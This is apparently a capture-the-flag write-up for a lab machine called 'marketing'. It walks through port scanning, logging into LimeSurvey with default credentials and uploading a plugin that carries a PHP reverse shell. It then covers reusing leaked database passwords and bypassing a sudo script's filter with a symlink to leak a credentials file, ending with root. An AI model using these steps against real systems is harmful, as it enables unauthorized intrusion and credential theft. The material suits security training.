









Writeup by wook413

[TOC]

# Recon

## Nmap

As a standard procedure, I initiated 3 different `Nmap` scans. The first covered all 65,535 TCP ports to ensure no service was missed. The second was a targeted service scan on identified ports to determine versions, and the third focused on the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:49 UTC
Nmap scan report for 192.168.170.225
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.22 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80                                             
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:50 UTC
Nmap scan report for 192.168.170.225
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: marketing.pg - Digital Marketing for you!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:51 UTC
Nmap scan report for 192.168.170.225
Host is up (0.045s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   closed        dhcps
123/udp  closed        ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  closed        snmp
445/udp  closed        microsoft-ds
631/udp  open|filtered ipp
1434/udp closed        ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds
```

# Initial Access

## HTTP 80

I mapped the target IP address to `marketing.pg` in the `/etc/hosts` file for easier navigation.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.170.225 marketing.pg' | sudo tee -a /etc/hosts
[sudo] password for kali: 
192.168.170.225 marketing.pg
```

Only ports 22 and 80 were open. For the HTTP service, I ran the `http-enum` Nmap script for quick wins, which revealed `/old` and `/vendor` directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80        
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:52 UTC
Nmap scan report for 192.168.170.225
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-enum: 
|   /old/: Potentially interesting folder
|_  /vendor/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.48 seconds
```

Although the `index.html` files in the root and `/old` appeared identical, I discovered a hidden link to `customers-survey.marketing.pg` within the source code of the `/old` page.


```
/old
```




I added this subdomain to my `/etc/hosts` file as well.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.170.225 customers-survey.marketing.pg' | sudo tee -a /etc/hosts
192.168.170.225 customers-survey.marketing.pg
```

Navigating to the subdomain revealed a **LimeSurvey** instance.



Using `gobuster` for directory brute-forcing and researching for default credentials, I successfully logged in as `admin:password` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://customers-survey.marketing.pg> -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://customers-survey.marketing.pg>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/LICENSE              (Status: 200) [Size: 49474]
/admin                (Status: 301) [Size: 346] [--> <http://customers-survey.marketing.pg/admin/>]
/assets               (Status: 301) [Size: 347] [--> <http://customers-survey.marketing.pg/assets/>]
/index.php            (Status: 200) [Size: 47972]
/installer            (Status: 301) [Size: 350] [--> <http://customers-survey.marketing.pg/installer/>]
/modules              (Status: 301) [Size: 348] [--> <http://customers-survey.marketing.pg/modules/>]
/package.json         (Status: 200) [Size: 62]
/plugins              (Status: 301) [Size: 348] [--> <http://customers-survey.marketing.pg/plugins/>]
/tests                (Status: 301) [Size: 346] [--> <http://customers-survey.marketing.pg/tests/>]
/themes               (Status: 301) [Size: 347] [--> <http://customers-survey.marketing.pg/themes/>]
/tmp                  (Status: 301) [Size: 344] [--> <http://customers-survey.marketing.pg/tmp/>]
/upload               (Status: 301) [Size: 347] [--> <http://customers-survey.marketing.pg/upload/>]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```







I found this Github repository leveraging a plugin exploit to gain Remote Code Execution. The author also wrote the instruction on how to perform the exploit very clearly.

https://github.com/Y1LD1R1M-1337/Limesurvey-RCE

I created a `config.xml` and a PHP reverse shell, archived them as a ZIP file.

```bash
┌──(kali㉿kali)-[~/Desktop/Limesurvey-RCE]
└─$ zip wook.zip config.xml php-rev.php 
  adding: config.xml (deflated 56%)
  adding: php-rev.php (deflated 60%)
                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop/Limesurvey-RCE]
└─$ unzip -l wook.zip 
Archive:  wook.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      756  2026-01-28 01:59   config.xml
     2430  2026-01-28 02:00   php-rev.php
---------                     -------
     3186                     2 files
```



Uploaded them via **Configuration → Plugins → Upload & Install.** Upon activating the plugin, I received a reverse shell as the `www-data` user.



# Shell as `www-data`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 443
[+] Listening for reverse shells on 0.0.0.0:443 →  127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from marketing~192.168.170.225-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/marketing~192.168.170.225-Linux-x86_64/2026_01_28-02_07_20-684.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@marketing:/$ whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
marketing
www-data@marketing:/$ 
www-data@marketing:/home$ ls -R
.:
m.sander  t.miller

./m.sander:
personal
ls: cannot open directory './m.sander/personal': Permission denied

./t.miller:
local.txt
www-data@marketing:/home/t.miller$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
t.miller:x:1000:1000::/home/t.miller:/bin/bash
m.sander:x:1001:1001::/home/m.sander:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

While manually enumerating the system, I found database credentials in `/var/www/LimeSurvey/application/config/config.php` .



Although the MySQL database contained no sensitive information, I successfully performed **password reuse** by testing these credentials against the user `t.miller` . This allowed me to pivot to a user shell.

```bash
www-data@marketing:/$ mysql -h localhost -u limesurvey_user -p'EzPwz2022_dev1$$23!!'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \\g.
Your MySQL connection id is 70
Server version: 8.0.29-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

mysql> 
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| limesurvey         |
+--------------------+
2 rows in set (0.05 sec)
```

# Shell as `t.miller`

```bash
www-data@marketing:/$ su t.miller
Password: 
t.miller@marketing:/$ whoami;id;hostname
t.miller
uid=1000(t.miller) gid=1000(t.miller) groups=1000(t.miller),24(cdrom),46(plugdev),50(staff),100(users),119(mlocate)
marketing
```

Found `local.txt`

```bash
t.miller@marketing:~$ cat local.txt
cb9...
```

# Privilege Escalation

Running `sudo -l` showed that `t.miller` could run `/usr/bin/sync.sh` as the user `m.sander` .

```bash
t.miller@marketing:/$ sudo -l
Matching Defaults entries for t.miller on marketing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User t.miller may run the following commands on marketing:
    (m.sander) /usr/bin/sync.sh
```

The `sync.sh` script is a file synchronization tool that overwrites a target file (`/home/m.sander/personal/notes.txt` ) if a difference is detected.

```bash
t.miller@marketing:/$ cat /usr/bin/sync.sh
#! /bin/bash

if [ -z $1 ]; then
    echo "error: note missing"
    exit
fi

note=$1

if [[ "$note" =~ .*m.sander.* ]]; then
    echo "error: forbidden"
    exit
fi

difference=$(diff /home/m.sander/personal/notes.txt $note)

if [[ -z $difference ]]; then
    echo "no update"
    exit
fi

echo "Difference: $difference"

cp $note /home/m.sander/personal/notes.txt

echo "[+] Updated."
```

By providing an empty file as an argument, the `diff` command within the script leaked the entire contents of the target file to the terminal. However, it didn’t lead me to anything exploitable.

```bash
t.miller@marketing:/tmp$ touch /tmp/empty.txt
t.miller@marketing:/tmp$ sudo -u m.sander /usr/bin/sync.sh /tmp/empty.txt 
[sudo] password for t.miller: 
Difference: 1,3d0
< == NOTES ==
< - remove vhost from website (done)
< - update to newer version (todo)
\\ No newline at end of file
[+] Updated.
```

Checking `/etc/group` revealed that both `t.miller` and `m.sander` belonged to the `mlocate` group.

```bash
t.miller@marketing:/$ cat /etc/group
...
mlocate:x:119:m.sander,t.miller
```

There is `mlocate.db` file that belongs to `mlocate` group.

```bash
t.miller@marketing:/tmp$ find / -group mlocate 2>/dev/null
/var/lib/mlocate/mlocate.db
/usr/bin/mlocate
```


```bash
t.miller@marketing:/tmp$ cat mlocate_copy | grep m.sander
Binary file (standard input) matches
```

I examined the `mlocate.db` file using `grep -a` (to treat the binary as text), which exposed a hidden file: `/home/m.sander/personal/creds-for-2022.txt` .

```bash
t.miller@marketing:/tmp$ cat mlocate_copy | grep -a m.sander
```



The script blocks any path containing the string “**m.sander.**” To bypass this, I created a **symbolic link** in my current directory pointing to the credentials file `creds-for-2022.txt` .

```bash
t.miller@marketing:~$ ln -s /home/m.sander/personal/creds-for-2022.txt a_symlink
```

Since the link name did not contain the forbidden string, the script processed it, and the `diff` output revealed the passwords.

```bash
t.miller@marketing:~$ sudo -u m.sander /usr/bin/sync.sh a_symlink 
Difference: 1,3c1,8
< == NOTES ==
< - remove vhost from website (done)
< - update to newer version (todo)
\\ No newline at end of file
---
> slack account:
> michael_sander@gmail.com - pa$$word@123$$4!!
> 
> github:
> michael_sander@gmail.com - EzPwz2022_dev1$$23!!
> 
> gmail:
> michael_sander@gmail.com - EzPwz2022_12345678#!
\\ No newline at end of file
[+] Updated.
```

# Shell as `m.sander`

After logging in as `m.sander` , I checked the sudo permissions and found that the user had full sudo privileges (`ALL:ALL`).

```bash
t.miller@marketing:~$ su m.sander
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

m.sander@marketing:/home/t.miller$ whoami;id;hostname
m.sander
uid=1001(m.sander) gid=1001(m.sander) groups=1001(m.sander),24(cdrom),27(sudo),46(plugdev),50(staff),100(users),119(mlocate)
marketing
m.sander@marketing:/home/t.miller$ sudo -l
[sudo] password for m.sander: 
Matching Defaults entries for m.sander on marketing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User m.sander may run the following commands on marketing:
    (ALL : ALL) ALL
```

# Shell as `root`

I executed `sudo /bin/bash -p` to obtain a root shell and completed the challenge.

```bash
m.sander@marketing:/home/t.miller$ sudo -l
[sudo] password for m.sander: 
Matching Defaults entries for m.sander on marketing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User m.sander may run the following commands on marketing:
    (ALL : ALL) ALL
```

Found `proof.txt`

```bash
root@marketing:~# cat proof.txt
b2b...
```